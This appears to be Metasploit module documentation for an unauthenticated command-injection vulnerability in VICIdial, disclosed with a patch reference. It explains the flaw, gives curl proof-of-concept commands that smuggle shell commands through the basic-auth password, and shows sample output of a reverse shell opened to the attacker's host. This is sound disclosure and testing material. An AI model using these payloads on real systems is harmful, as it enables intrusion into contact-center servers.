 ## Description

  This module exploits a vulnerability in VICIdial versions 2.9 RC1 to 2.13 RC1 which allows unauthenticated users to execute arbitrary operating system commands as the web server user if password encryption is enabled (disabled by default).

  When password encryption is enabled the user's password supplied using HTTP basic authentication is used in a call to `exec()`.

  This module has been tested successfully on version 2.11 RC2 and 2.13 RC1 on CentOS.


## Vulnerable Application

  VICIDIAL is a software suite that is designed to interact with the Asterisk Open-Source PBX Phone system to act as a complete inbound/outbound contact center suite with inbound email support as well. 

  This module has been tested successfully on version 2.11 RC2 and 2.13 RC1 on CentOS.

  Installers:

  * [VICIdial 2.11 RC1](https://sourceforge.net/projects/astguiclient/files/astguiclient_2.11rc1.zip/download)
  * [VICIdial 2.13 RC1](https://sourceforge.net/projects/astguiclient/files/astguiclient_2.13rc1.zip/download)

  Follow the [instructions to enabled password encryption](http://vicidial.org/docs/ENCRYPTED_PASSWORDS.txt).


## Technical Details

  The `functions.php` file defines a function called `user_authorization`:

  ```php
  function user_authorization($user,$pass,$user_option,$user_update)
  ```
 
  This function is used throughout the application to validate user logon credentials supplied using HTTP basic authentication. If password encryption is enabled the user's password is passed to the `pass` argument of the `bp.pl` Perl script, without quotes, using PHP's `exec()` function:

  ```php
  if ($SSpass_hash_enabled > 0)
          {
          if (file_exists("../agc/bp.pl"))
                  {$pass_hash = exec("../agc/bp.pl --pass=$pass");}
          else
                  {$pass_hash = exec("../../agc/bp.pl --pass=$pass");}
  ```

  A rudimentary blacklist is used to prevent command injection. The apostrophe `'`, quote `"`, semi-colon `;` and backslash `\` characters are removed from the user's username and password using `preg_replace`, like so:

  ```php
  $user = preg_replace("/\'|\"|\\\\|;/","",$user);
  $pass = preg_replace("/\'|\"|\\\\|;/","",$pass);
  ```

  It is trivial to bypass the blacklist.

  For example, backticks ``` ` ```, pipe `|` or ampersand `&` are sufficient to bypass the blacklist and execute arbitrary operating system commands.

  For the purposes of exploitation, reaching the `user_authorization` function call with malicious input is hindered by additional input validation in use prior to the authentication check throughout the majority of the codebase:

  ```php
  $PHP_AUTH_USER = preg_replace('/[^-_0-9a-zA-Z]/', '', $PHP_AUTH_USER);
  $PHP_AUTH_PW = preg_replace('/[^-_0-9a-zA-Z]/', '', $PHP_AUTH_PW);
  ```

  However, in VICIdial version 2.11RC2, at least two files did not make use of the additional validation:

  * help.php
  * vicidial_sales_viewer.php

  In VICIdial version 2.13RC1, at least one file did not make use of the additional validation:

  * vicidial_sales_viewer.php

  This vulnerability was patched in revision 2759.


## Proof of Concept

  ```bash
  $ curl -isk "https://VICIdial.local/vicidial/vicidial_sales_viewer.php" \
  --user 'anyusername:anypassword& id>/tmp/pwned_by_sales_viewer #'
  ```

  ```bash
  $ curl -isk "https://VICIdial.local/vicidial/help.php" \
  --user 'anyusername:anypassword& id>/tmp/pwned_by_help #'
  ```

  Note that `/tmp/pwned_by_help` and `/tmp/pwned_by_sales_viewer` files should contain the results of the `id` command.


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/vicidial_user_authorization_unauth_cmd_exec`
  3. Do: `set rhost [IP]`
  4. Do: `run`
  5. You should get a session


## Sample Output

  ```
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > check
  [*] 172.16.191.150:80 The target appears to be vulnerable.
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] 172.16.191.150:80 Sending payload (505 bytes)
  [+] 172.16.191.150:80 Payload sent successfully
  [*] Command shell session 1 opened (172.16.191.181:4444 -> 172.16.191.150:36660) at 2017-05-27 01:00:41 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  ```


## Sample Output (Verbose)

  ```
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > set verbose true
  verbose => true
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > check

  [*] 172.16.191.150:80 Password encryption is supported, but may not be enabled.
  [*] 172.16.191.150:80 The target appears to be vulnerable.
  msf exploit(vicidial_user_authorization_unauth_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.181:4444 
  [*] 172.16.191.150:80 Sending payload (505 bytes)
  [+] 172.16.191.150:80 Payload sent successfully
  [*] Command shell session 2 opened (172.16.191.181:4444 -> 172.16.191.150:36661) at 2017-05-27 01:00:48 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  ```

